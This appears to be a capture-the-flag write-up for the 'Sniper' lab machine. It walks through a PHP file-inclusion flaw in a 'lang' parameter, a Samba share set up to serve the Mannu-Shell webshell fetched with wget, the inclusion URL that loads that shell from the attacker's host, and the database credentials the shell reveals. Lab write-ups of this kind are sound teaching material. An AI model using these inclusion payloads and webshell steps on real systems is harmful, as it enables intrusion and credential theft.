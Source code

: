 # 🔫 Sniper

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First we start by an nmap :

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I first go on the webpage, and find a nice interface with sub categories:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

then click on the user interface that seemed the only legit page on the homepage:

decided to create a user Felix/Felix:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and when trying to log in:&#x20;

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So I start to wonder if the other pages weren't fake rabbit holes:

In the "our service" page, we find a dropdown menu for the languages linked to a php file that could lead to RFI

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we try and go fetch a file in a subdirectory:

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
http://10.129.229.6/blog/?lang=/windows/system32/drivers/etc/hosts
```

We can now try to gain foothold via a smb share&#x20;

{% embed url="https://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html" %}

### Create a Webshell with Remote File Inclusion

Configure the proper permissions.

```
~$ cd /var/www/html
/var/www/html$ sudo mkdir sniper
/var/www/html$ chmod 0555 /var/www/html/sniper/
/var/www/html$ chown -R nobody:nogroup /var/www/html/sniper/
/var/www/html$ ls -l
dr-xr-xr-x 2 nobody nogroup  4096 Feb 22 13:52 sniper
```

configured the `smb.conf` file in the location `/etc/samba/smb.conf`

```
/etc/samba$ cat smb.conf 
[global]
    workgroup = WORKGROUP
    server string = Samba Server %v
    netbios name = indishell-lab
    security = user
    map to guest = bad user
    name resolve order = bcast host
    dns proxy = no
    bind interfaces only = yes
[sniper]
    path = /var/www/html/sniper
    writable = no
    guest ok = yes
    guest only = yes
    read only = yes
    directory mode = 0555
    force user = nobody
```

restart the Samba service to get the changes effective.

```
service smbd restart
```

ast part is preparing a payload that can be called by the webserver. I downloaded the script `mannu.php` and placed it in `box.php` in the location `/var/www/html/`

```
wget https://raw.githubusercontent.com/incredibleindishell/Mannu-Shell/master/mannu.php -O /var/www/html/sniper/box.php
```

And if i request the following url with the RFI:&#x20;

```
http://10.129.229.6/blog/?lang=\\10.10.14.166\sniper\box.php
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In the `../user/db.php` file, if we click the edit button, we can see some very interesting stuff:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we got some credentials for dbuser (36mEAhz/B8xQ\~2VM)

